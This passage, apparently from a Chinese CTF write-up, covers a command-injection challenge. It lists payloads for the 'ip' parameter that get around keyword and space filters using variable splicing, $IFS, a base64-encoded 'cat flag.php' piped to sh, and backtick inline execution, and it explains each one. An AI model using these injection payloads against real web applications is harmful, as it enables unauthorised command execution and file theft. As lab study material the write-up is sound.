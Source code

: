 既然过滤掉flag那就拼接就行

有如下四种拼接方法，但是都试过后只有一种的出flag

```bash
?ip=127.0.0.1;a=f;cat$IFS$1$alag.php    过滤
?ip=127.0.0.1;a=l;cat$IFS$1f$aag.php	有request，但没flag
?ip=127.0.0.1;a=a;cat$IFS$1fl$ag.php  	过滤
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php	有flag
```

第三种就是刚才说的按顺序出现了flag。

#### 第二种：base64编码

虽然bash被过滤了，但是sh没有。

我们就可以用base64编码一下flag，从而达到绕过的作用。

例子：

```
CODE
echo "bHM="|base64 -d|bash  
```

这个和

```
CODE
bash ls
```

是有相同效果的。

据此我们就可构造payload

```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

```bash
Y2F0IGZsYWcucGhw是cat flag.php的base64-encode
```

这样就可以得到flag了

![微信图片_20210130114547](https://tcakalr.gitee.io/tc/微信图片_20210130114547.png)

#### 第三种：内联执行

```bash
?ip=127.0.0.1;cat$IFS$1`ls`
```

payload是这样的，那他是个什么意思呢？

解释如下：

```bash
方法名叫内联执行
方法:将反引号内命令的输出作为输入执行
```

即我用ls得出来的变成输入执行，即等价于我cat flag.php和index.php，这两个php文件是ls出来的。

最终就可以得到flag

![微信图片_20210130114831](https://tcakalr.gitee.io/tc/微信图片_20210130114831.png)

这是这一题可以用到的知识点，当然还有许多的知识未用到

这里有链接，里面的文章做了比较详细的一些总结：

https://www.ghtwf01.cn/index.php/archives/273/#menu_index_10